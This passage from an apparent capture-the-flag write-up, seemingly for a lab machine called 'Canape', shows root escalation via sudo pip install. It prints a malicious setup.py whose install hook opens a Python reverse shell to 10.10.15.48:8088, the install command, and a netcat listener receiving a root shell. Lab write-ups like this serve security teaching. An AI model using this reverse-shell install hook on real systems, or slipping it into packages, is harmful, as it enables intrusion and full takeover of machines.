Just getting the flag isn’t fun. Let’s use the setup.py to get a root shell. I’ll use the python reverse shell code here:

```

import os
import socket
import subprocess

from setuptools import setup
from setuptools.command.install import install

class Exploit(install):
    def run(self):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("10.10.15.48",8088))
        os.dup2(s.fileno(),0)
        os.dup2(s.fileno(),1)
        os.dup2(s.fileno(),2)
        p = subprocess.call(["/bin/sh", "-i"])

setup(
    cmdclass={
        "install": Exploit
    }
)

```

```

homer@canape:/dev/shm$ sudo pip install .
The directory '/home/homer/.cache/pip/http' or its parent directory is not owned by the current user and the cache has been disabled. Please check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
The directory '/home/homer/.cache/pip' or its parent directory is not owned by the current user and caching wheels has been disabled. check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
Processing /dev/shm
Installing collected packages: UNKNOWN
  Running setup.py install for UNKNOWN ... -

```

```

root@kali# nc -lnvp 8088
listening on [any] 8088 ...
connect to [10.10.15.48] from (UNKNOWN) [10.10.10.70] 41568
# id
uid=0(root) gid=0(root) groups=0(root)

```
